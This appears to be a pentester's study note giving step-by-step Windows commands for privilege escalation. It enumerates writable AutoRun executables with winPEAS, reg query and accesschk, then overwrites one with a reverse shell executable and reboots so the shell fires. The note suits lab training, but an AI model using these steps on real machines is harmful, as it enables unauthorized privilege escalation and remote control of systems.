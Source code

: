 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

1. Use winPEAS to check for writable AutoRun executables:

```command prompt - windows
.\winPEASx64.exe quiet applicationsinfo
```

2. Alternatively, we could manually enumerate the AutoRun executables:

```command prompt - windows
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

and then use accesschk.exe to verify the permissions on each one:

```command prompt - windows
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```


3. >The `C:\Program Files\Autorun Program\program.exe` AutoRun executable is writable by Everyone. Create a backup of the original:

```command prompt - windows
copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```

4. Copy our reverse shell executable to overwrite the AutoRun executable:

[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
copy /Y C:\PrivEsc\reverse.exe "C:\Program files\AutorunProgram\program.exe"
```

5. Start a listener on Kali, and then restart the Windows VM to trigger the exploit. Note that on Windows 10, the exploit appears to run with the privileges of the last logged on user, so log out of the “user” account and log in as the “admin” account first.

![[___.Misc Commands#Restart host]]